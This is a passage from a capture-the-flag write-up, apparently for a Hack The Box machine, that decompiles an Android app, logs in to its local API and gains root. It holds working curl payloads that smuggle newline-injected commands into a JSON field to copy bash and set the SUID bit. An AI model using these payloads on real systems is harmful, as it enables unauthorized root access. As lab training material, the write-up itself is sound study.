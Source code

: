 ```bash
~/tools/jadx-gui/bin/jadx classes.dex
INFO  - loading ...
INFO  - processing ...
INFO  - done
```

```bash
grep -Ri bigbang.htb
classes/sources/u/AsyncTaskC0228f.java:                    HttpURLConnection httpURLConnection = (HttpURLConnection) new URL("http://app.bigbang.htb:9090/login").openConnection();
classes/sources/u/AsyncTaskC0228f.java:                    HttpURLConnection httpURLConnection2 = (HttpURLConnection) new URL("http://app.bigbang.htb:9090/command").openConnection();
classes/sources/q0/b.java:            HttpURLConnection httpURLConnection = (HttpURLConnection) new URL("http://app.bigbang.htb:9090/command").openConnection();
grep: classes.dex: binary file matches
grep: satellite-app.apk: binary file matches
```

[DESC](file-20250504171654939.png)

On the `login` endpoint we can send the `developer` credential to receive an access token
```
curl -XPOST localhost:9090/login -H 'Content-Type: application/json' -d '{"username":"developer","password":"bigbang"}'
{"access_token":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTc0NjM3ODYyNSwianRpIjoiYWI0ZmM1YmQtZDcwZi00OGU1LWIwYmItYjBkYWU0NDkwMzg4IiwidHlwZSI6ImFjY2VzcyIsInN1YiI6ImRldmVsb3BlciIsIm5iZiI6MTc0NjM3ODYyNSwiY3NyZiI6IjM3NTUxOTI4LWRkZjItNDllMS04ZTBiLTEyYTFmZjJlYTg3YSIsImV4cCI6MTc0NjM4MjIyNX0.OBDC17PeO33LSZETt_eNd9NXc-O5aJe96oc0wRclN5I"}
```

Looking at the code, we can see that we can send a `POST` request with the payload 
```json
{
"command":"send_file",
"output_file": "<file>"
}
```

While sending this command, we can montitor what the host is running using the [`pspy`](https://github.com/DominicBreuker/pspy) tool, which allows us to see the processes running on the host without needing to install anything on it. 

![DESC](file-20250504171849015.png)

We can see that the command is being executed as `root` and that it is running a `bash` shell, which allows us to run commands as root if we escape it. Trying a simple `\n` (newline) we can see that the root will run the other command

![DESC](file-20250504172008145.png)

With that in mind, we can copy the `/bin/bash` binary to the `/tmp` folder, enable the `suid` bit and then run it with the `-p` flag to get a root shell

```bash
curl -XPOST localhost:9090/command -H 'Content-Type: application/json' -d '{"command":"send_file","output_file":"/tmp/bash\ncp /bin/bash /tmp/bash"}'
```
```bash
curl -XPOST localhost:9090/command -H 'Content-Type: application/json' -d '{"command":"send_file","output_file":"/tmp/bash\nchmod 4755 /tmp/bash"}'
```
